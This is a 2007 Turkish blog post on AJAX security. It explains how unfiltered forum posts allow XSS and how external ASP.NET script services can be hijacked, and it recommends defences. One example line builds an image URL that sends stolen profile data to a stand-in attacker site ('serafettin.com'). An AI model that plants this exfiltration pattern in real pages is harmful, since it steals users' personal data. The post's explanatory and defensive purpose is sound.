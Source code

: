 ```yaml
---
FallbackID: 1729
Title: "AJAX ve Güvenlik Sorunları"
date: "2007-4-20"
EntryID: AJAX_ve_Guvenlik_Sorunlari
IsActive: True
Section: software
MinutesSpent: 0
Tags: AJAX
old.EntryID: 4ca7f74e-dcc3-4f5e-8b97-3b84d6ca2d44
---
```

# AJAX ve Güvenlik Sorunları
**AJAX** artık neredeyse her web projesinde kullanılır oldu. Bazı
projelerde ufak noktalarda kendini gösteren AJAX yeni nesil projelerde
ise neredeyse tüm iş katmanına yayılmış durumda. Bu noktada maalesef
AJAX'ın getirdiği heyecanın kısmi sersemliği ile güvenlik konusunda
kaygılar unutulmuş durumda. Oysa eskiden beridir **XSS
(Cross-Site-Scripting)** bizim JavaScript tarafındaki en önemli
düşmanlarımızdan. Ne kadar ilginçtir ki AJAX'ın göbeğinde de JavaScript
bulunuyor.

**XSS yeni bir güvenlik sorunu değil ki!?**

Kesinlikle değil. Cross-Site-Scripting uzun süredir bilinen, tanınan ve
koruma yöntemleri geliştirilmiş bir sorun. Fakat **XSS**'in yaratacağı
sorunlar AJAX ile binlerce kat büyüyor. Nasıl mı oluyor? Hemen bir örnek
üzerinden gidelim. Varsayalım bir forum uygulaması programlıyorsunuz ve
kullanıcıların attıkları mesajların içeriğini kontrol etmiyorsunuz.
Ziyaretçilerden biri mesajının arasına kendi hazırlamış olduğu
JavaScript kodunu yerleştirdi ve mesajı yolladı. Mesajı direk sitede
gösterdiğinizi varsayalım (Kötü bir programcısınız :)). Söz konusu
kullanıcının gönderdiği JavaScript kodu tüm kullanıcıların
bilgisayarında çalışacaktır. Bu noktada basit bir saldırı tipi olarak
uygun JavaScript kodu ile o sayfaya giren tüm kullanıcıların başka bir
adrese yönlendirilmesinden bahsedebiliriz (**fishing**). Forumunuzda
mesajların gönderimi ve gösterimi için AJAX kullandığınızı varsayalım.
Kullandığınız AJAX kodu, yani JavaScript kodunuz tüm kullanıcılara
gidiyor ve kaynak içerisinde incelenebiliyor. Biraz önce bahsettiğimiz
"kötü ziyaretçi" sizin AJAX metodlarınızı kullanarak forumunuza mesaj
atan bir JavaScript fonksiyonu yazarak mesajına eklerse neler olur?
Mesajın gözüktüğü sayfayı açan herkes o JavaScript metodunu çalıştırmış
olur böylece bir anda forumunuzdaki her kullanıcının yüzlerce mesaj
atması gibi bir durumla karşılaşabilirsiniz. Tüm bu işlem AJAX tarafında
yapıldığı için de kimse farkına varmayacaktır.

Aynı forum uygulamamızla ilgili başka bir durumdan bahsedelim. Forum
uygulamasını programlarken kullanıcıların bilgilerini de
değiştirebilecekleri bir sayfa hazırladınız. Tüm kullanıcıları bilgileri
AJAX ile sayfaya yerleşiyor ve kaydedilebiliyor. Tabi ki tüm bu AJAX
metodlarınız foruma mesaj atılan ve mesajların gösterildiği metodlar ile
sayfada yer alıyor. Kötü kullanıcı Şerafettin :) sitenizde
kullanıcıların bilgilerini profil sayfasına yerleştiren, yani
veritabanından çeken AJAX metodlarını kullanan bir JavaScript komutu
yazarak mesajına ekleyip gönderdi. Her kullanıcı forumda gezerken
Şerafettin'in yazdığı kod söz konusu kullanıcının bilgileri alacak. Peki
sonra ne yapacak? Bu bilgisi aşağıdaki gibi klasik bir teknikle kendi
sitesine aktaracak :)

<span> (<span style="color: blue;">new</span> Image()).src = <span
style="color: rgb(163, 21, 21);">
"http://serafettin.com/bilgigeldi.php?data="</span> +
ProfilBilgisi;</span>

Gözümüzün önünde tüm kullanıcıların profil bilgileri Şerafettin'in
mesajının bulunduğu sayfaya girdikleri gibi elden gidiyor.

XSS'i engellemek, yani kullanıcıların web sitenize gönderdiği içeriği
filtrelemek için **Microsoft** tarafından **ASP.NET** geliştiricileri
için hazırlanmış olan [**Anti-Cross Site
Script**](http://www.microsoft.com/downloads/details.aspx?familyid=9a2b9c92-7ad9-496c-9a89-af08de2e5982&displaylang=en)
kütüphanesini kullanabilirsiniz.

**JavaScript Hijacking**

Bir diğer AJAX sorunlarıdan biri de sitemiz dahilindeki AJAX
metodlarının başka sitelerde de kullanılabilmesi. Eğer AJAX
metodlarınızı harici bir JavaScript dosyasına yerleştirerek sayfanıza
linklediyseniz aynı linklemeyi başka siteler de yapabilir. Farklı alan
adları arasında XMLHttpRequest objelerinin çalışmaması ile ilgili
güvenlik düzenlemeleri olmasına karşın bu durumla ilgili herhangi bir
düzenleme yapmak pek mümkün değil.

<span style="color: blue;"> \<</span><span
style="color: rgb(163, 21, 21);">script</span><span> <span
style="color: red;"> language</span><span
style="color: blue;">="javascript"</span> <span style="color: red;">
src</span><span
style="color: blue;">="http://www.deneme.com/WebService.asmx/js"\>\</</span><span
style="color: rgb(163, 21, 21);">script</span><span
style="color: blue;">\></span></span>

Yukarıdaki kodu kullanarak deneme.com sitesinde kullanılmak üzere
hazırlanmış JavaScript metodlarını herhangi bir sitede, sayfada
kullanabilirsiniz. Dikkat ederseniz özellikle örnek içerisinde
**ScriptService** özelliğine sahip bir ASP.NET web servisi kullandım.
Bizim genelde ASP.NET AJAX tarafında sayfamıza linklediğimiz harici AJAX
metodları web servislerinde yer alıyor.\

Peki bu güvenlik açığına karşı ne yapabiliriz? Herhangi birşey yapmanız
gerekmiyor :) Microsoft bu açığı öngörmüş ve HTTP GET metodlarını web
metodlarına kapatmış. Yukarıdaki kod kullanılarak yapılacak bir talep
GET metodu ile yapılacaktır, herhangi bir şekilde POST metodu ile
yapılması mümkün değil. Siz web methodlarınıza **UseHttpGet:=True**
özelliği vermediğiniz sürece herhangi bir sorun olmayacaktır.

**Sonuç**

Benim tavsiyem AJAX kullanırken özellikle veri alımında, yani
veritabanına kaydedilecek veriyi kullanıcıdan alırken kullandığınız
tekniklerde dikkatli davranmanız. Eğer **Forms Authentication**
kullanıyorsanız web servislerinizi de korumaya almanızda fayda var. Tüm
bu tekniklerin haricinde sunucu taraflı sistem yükü fazla olsa da
Session bazlı ID'ler tanımlayarak sayfanızdaki AJAX işlemlerine gerçek
zamanlı parametre olarak ekleyerek gelen taleplerin sizin sisteminizden
gelip gelmediğini de kontrol edebilirsiniz. Son olarak XSS'e karşı
korunmayı da unutmayın.\



*Bu yazi http://daron.yondem.com adresinde, 2007-4-20 tarihinde yayinlanmistir.*
